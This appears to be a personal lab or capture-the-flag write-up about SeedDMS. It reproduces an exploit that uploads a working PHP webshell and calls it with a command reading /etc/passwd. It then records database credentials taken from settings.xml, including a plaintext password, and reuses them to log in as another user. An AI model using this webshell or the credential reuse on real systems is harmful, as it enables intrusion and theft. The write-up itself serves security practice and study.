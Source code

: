```php
Exploit Steps:

Step 1: Login to the application and under any folder add a document.
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.

PHP Backdoor Code:
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.

Note: Here "data" and "1048576" are default folders where the uploaded files are getting saved.
```


![[Pasted image 20211227231052.png]]


![[Pasted image 20211227231239.png]]

* the system doens't let us to have a reverse shell
* cathing info about mysql on settings.xml
![[Pasted image 20211227232619.png]]
dbUser="seeddms" dbPass="ied^ieY6xoquu"

Pass: ied^ieY6xoquu

* Try login in on port 9090 with this password, using user michelle

* Login sucessful as michelle:ied^ieY6xoquu
![[Pasted image 20211227232838.png]]